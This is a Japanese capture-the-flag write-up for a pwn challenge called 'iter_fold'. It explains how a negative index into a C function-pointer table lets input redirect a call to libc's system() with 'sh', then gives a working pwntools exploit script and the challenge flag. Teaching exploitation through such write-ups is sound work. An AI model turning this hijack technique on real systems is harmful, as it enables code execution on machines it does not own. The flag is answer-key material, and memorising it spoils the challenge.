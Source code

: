 # iter_fold writeup

## 問題文

```txt
トゥットゥルー♪まゆしぃ☆です。

`nc 203.0.113.0 4004`
```

## about

Rustの`iter().fold()`の様な挙動を再現するプログラムです．

関数ポインタ経由の呼び出しと，C言語における配列のインデックスアクセスが糖衣構文である事を利用します．

また，libcのベースアドレスが提示されているので活用します．

## writeup

```c
typedef long (*operation)(long*, long);

struct Fold {
    long array[5];
    operation ops[6];
};
```

こんな構造体があり，

```c
long fold(long* array, long* init, operation op) {
    for (int i = 0; i < 5; i++)
        op(init, array[i])

    return *init;
}
```

に渡される．

`main`では,

```c
struct Fold f = {
    .array = {0, 0, 0, 0, 0},
    .ops[0] = multiplication,
    .ops[1] = add,
    .ops[3] = sub,
    .ops[5] = division,
};
```

の様に変数が宣言されています，`add`や`sub`は名前に準じた操作を行う関数です．

`f.array`の各要素を`scanf("%ld", &f.array[i])`で読み込んだ後，初期値，演算子を読んでいます．

しかし，演算子の扱いが問題です．

```c
scanf("%c", &op);
```

で`op`に読んだ後，

```c
fold(f.array, &init, f.ops[op_to_index(op)]);
```

の様な呼び出しをしています．

`op_to_index`はシンプルで，

```c
int op_to_index(char op) {
    return op - '*';
}
```

これは，想定されている演算子`('+', '-', '*', '/')`の中では正常に機能しますが，それ以外の文字が入力された場合に脆弱です．

C言語において，配列への添字によるアクセスは糖衣構文です．

```c
ops[i] == *(ops + i)
```

つまり，添字の値が負であった場合も動作します．

ここで，メモリ上の`Fold`の配置を確認すると

```c
f.array[4] == f.ops[-1]
```

である事がわかります．

`f.array[4]`に任意のアドレスを入れれば，それを呼び出せる訳です．

```python3

m pwn import *

binfile = '../distfiles/chall'
e = ELF(binfile)
context.binary = binfile
libc = ELF('../distfiles/libc-2.27.so')

io = remote('203.0.113.0', 4004)

system_offset = libc.sym['system']
sh_byte = 0x6873

# 0x7f3965438000 < トゥットゥルー♪ libcです☆
libc_base_addr = int(io.recvline().split()[0], 16)

system_addr = libc_base_addr + system_offset

array = [0] * 4 + [system_addr]

for i in array:
    # array[{{index}}] =
    io.sendlineafter('=', str(i))

# init =
io.sendlineafter('=', str(sh_byte))

# operator please(+,-,*,/)
io.readline()

# op = '*' - 1
io.sendline(chr(ord('*') - 1))

# vec![{{array}}].iter().fold({{init}}, |ans, &x| ans {{op}} x);
io.readline()

io.sendline('cat flag.txt')
print(io.readline().decode())
```

## flag

`ISCCTF{m4g1c4l_p0w3rfull_libc_offset}`
